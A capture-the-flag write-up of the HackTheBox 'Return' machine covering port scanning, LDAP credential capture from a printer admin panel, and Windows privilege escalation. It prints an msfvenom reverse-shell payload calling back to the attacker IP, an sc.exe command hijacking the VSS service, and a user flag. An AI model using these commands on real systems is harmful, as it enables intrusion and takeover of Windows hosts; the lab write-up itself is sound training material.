 # Return
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/bb7929a7-5a9e-434c-a534-346742066b3d)


## Lessons Learned:
- Enumerating SMB Services using **smbclient** and **enum4linux**.
- Abusing network printer.
- Using evil-winrm to login as svc-printer.
- Enumerating group memberships for user svc-printer.
- Checking user's privilege in windows.
- Creating a reverse shell exe using msfvenom.
- Abusing Active Directory (AD) security groups.

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~/Downloads]
└─$ nmap -p- -sV -sC 10.10.11.108 --min-rate 1000 -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-23 08:15 PST
Stats: 0:00:47 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 61.24% done; ETC: 08:16 (0:00:30 remaining)
Nmap scan report for 10.10.11.108
Host is up (0.018s latency).
Not shown: 65501 closed tcp ports (conn-refused)
PORT      STATE    SERVICE       VERSION
53/tcp    open     domain        Simple DNS Plus
80/tcp    open     http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
88/tcp    open     kerberos-sec  Microsoft Windows Kerberos (server time: 2023-12-23 16:35:21Z)
135/tcp   open     msrpc         Microsoft Windows RPC
139/tcp   open     netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open     ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open     microsoft-ds?
464/tcp   open     kpasswd5?
593/tcp   open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open     tcpwrapped
3268/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open     tcpwrapped
5985/tcp  open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open     mc-nmf        .NET Message Framing
16515/tcp filtered unknown
28911/tcp filtered unknown
30028/tcp filtered unknown
33923/tcp filtered unknown
40939/tcp filtered unknown
47001/tcp open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47020/tcp filtered unknown
49664/tcp open     msrpc         Microsoft Windows RPC
49665/tcp open     msrpc         Microsoft Windows RPC
49666/tcp open     msrpc         Microsoft Windows RPC
49667/tcp open     msrpc         Microsoft Windows RPC
49671/tcp open     msrpc         Microsoft Windows RPC
49676/tcp open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
49677/tcp open     msrpc         Microsoft Windows RPC
49678/tcp open     msrpc         Microsoft Windows RPC
49681/tcp open     msrpc         Microsoft Windows RPC
49728/tcp open     msrpc         Microsoft Windows RPC
50859/tcp filtered unknown
50956/tcp filtered unknown
58849/tcp filtered unknown
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 18m33s
| smb2-time: 
|   date: 2023-12-23T16:36:20
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 143.45 seconds
```

1. Based from the nmap results, the machine runs a web application hosted with Microsoft IIS httpd 10.0 web server and open public SMB.
2. Noticed port **5985** (WinRM or Windows Remote Management) also opened, this should allows us to use **evil-winrm**.

> WEB APP - Welp, we are in the admin panel.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/11a8acbe-87b9-4fb4-b7df-964d5321ac79)


2. Few ports also opened and noticed the machine uses LDAP service.
3. To enumerate public smb shares, you can use either **smbclient** or **enum4linux**.
4. Anyway, enumerating it using **smbclient** found no workgroup.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/31f869dc-37b9-4c5b-b256-7b80359c0b44)


5. It goes the same with **enum4linux** but it provides another information, which states that the host is part of the **RETURN** domain.

> Usage in enum4linux

```
enum4linux -a return.htb
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/219c992c-aa57-4661-ad0e-9dabeeda62e3)


6. With this result, we can identified that `SMB does not allow guest sessions or NULL`.
7. Moving on our attention to the web app and navigating to the **settings** option. Found out we can see the username but the password is hidden.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/59978b87-b3f7-4664-b00d-be913f213a3e)


8. However, this page disclose an information that **svc-printer** cred can be seen by watching the request at port 389 (runs LDAP services).
9. We can leak the password by setting a listener to that port and change the server address to our public ip. ANOTHER way to make it clear in case we can't see the leaked password clear, we can run **wireshark** when clicking the submit button.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0755bbe1-d1f6-4a11-9588-6165ec4e0505)


> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fc99ae94-b8fc-4421-88fa-c8fa8891e42c)


> RESULT IN WIRESHARK

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/dbae58ec-3662-4944-8344-ea1aa15d2a1b)


10. Nice! Let's use **evil-winrm**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/12e1c654-b1f0-4384-b14c-ad6689167798)


> GETTING USER FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/4e6cdcec-7b3f-4496-82b6-41a3e429715f)


## USER FLAG

```
5216ac3a0475fe671c786c662e88194e
```

11. To gain root, I start by enumerating the group memberships.

```
net user svc-printer
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/af3da7c4-b906-401c-bb42-77beea08612b)


12. Next, I check the user's priviege.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a12db1dd-60b9-41b7-9350-1c8d2c2cbd83)


13. Not a fond in windows pentesting, so I digging more about **Active Directory Security Groups** and found this website.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/88c5aeef-e140-47f8-a506-58850fa8ce95)


14. Long story short, **Server Operators Group** is our interest here. The most important here is, it can start and stop service. 

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/4abaa734-a7ba-43cf-9809-93b9feed786d)


15. There is a binary in windows which used for communicating with the Service Control Manager (SCM) and services. It's called SC.
16. Not only that, remembering the user has **SeBackupPrivilege** and **SeRestorePrivilege**, makes it clear that we can gained root by modifying VSS binary path.

```
Why VSS?
-> Volume Shadow Copy Service (VSS) can create and manage shadow copies of volumes on s Windows Systems. It is designed for creating backups and ensuring data consistency.
```

17. Now let's make a reverse shell exe using **msfvenom**.

> COMMAND

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.27 LPORT=1337 -f exe -o exp.exe
```

#### NOTE: Create the exe in the same directory as the executed evil-winrm.

18. To upload it to the winrm shell, simply run --> upload exp.exe.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c125aef8-7281-48b7-945e-cc541736a2dd)


19. Now we need to change the binary path for VSS.

> COMMAND

```
sc.exe config VSS binPath="C:\Users\svc-printer\Downloads\exp.exe -e cmd.exe 10.10.14.27 1337"
```






## IMPORTANT LINKS

```
https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#bkmk-serveroperators
```
